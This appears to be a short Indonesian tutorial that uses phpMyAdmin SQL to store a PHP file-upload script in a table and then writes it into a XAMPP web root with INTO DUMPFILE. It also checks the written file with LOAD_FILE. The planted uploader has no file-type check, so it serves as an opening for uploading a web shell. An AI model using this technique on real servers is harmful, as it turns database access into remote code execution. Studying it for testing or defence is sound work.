 #### Execute CLI Command

Pada halaman ini saya akan mencoba Upload File dari PHPMyAdmin

##### Buat table baru
```sql
CREATE TABLE `test`.`test_content` ( `id` INT NOT NULL AUTO_INCREMENT , `name` VARCHAR(50) NOT NULL , `content` TEXT NOT NULL , PRIMARY KEY (`id`)) ENGINE = InnoDB;
```

##### Insert Data Baru
```sql
INSERT INTO `test_content` (`id`, `name`, `content`) VALUES (NULL, 'upload.php', '<!DOCTYPE html>
<html>
<body>

<form action="upload.php" method="post" enctype="multipart/form-data">
    Select image to upload:
    <input type="file" name="fileToUpload" id="fileToUpload">
    <input type="submit" value="Upload Image" name="submit">
</form>

<?php

if(isset($_POST["submit"])) {
	$target_dir = getcwd()."/";
	$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
	$uploadOk = 1;
	$imageFileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));

	// Check if file already exists
	if (file_exists($target_file)) {
		echo "Sorry, file already exists.";
		$uploadOk = 0;
	}
	// Check file size
	if ($_FILES["fileToUpload"]["size"] > 500000) {
		echo "Sorry, your file is too large.";
		$uploadOk = 0;
	}

	// Check if $uploadOk is set to 0 by an error
	if ($uploadOk == 0) {
		echo "Sorry, your file was not uploaded.";
	// if everything is ok, try to upload file
	} else {
		if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
			echo "The file ". basename( $_FILES["fileToUpload"]["name"]). " has been uploaded.";
		} else {
			echo "Sorry, there was an error uploading your file.";
		}
	}
}

?>

</body>
</html>');
```

##### Membuat File di Disk
Jalankan query di bawah untuk membuat file `upload.php`
```sql
SELECT content FROM `test_content` WHERE 1 INTO DUMPFILE "D:/xampp2/htdocs/test/upload.php"
```
Untuk cek apakah file sudah terbentuk, jalankan perintah
```sql
SELECT LOAD_FILE('D:/xampp2/htdocs/test/upload.php') AS file_exist
```
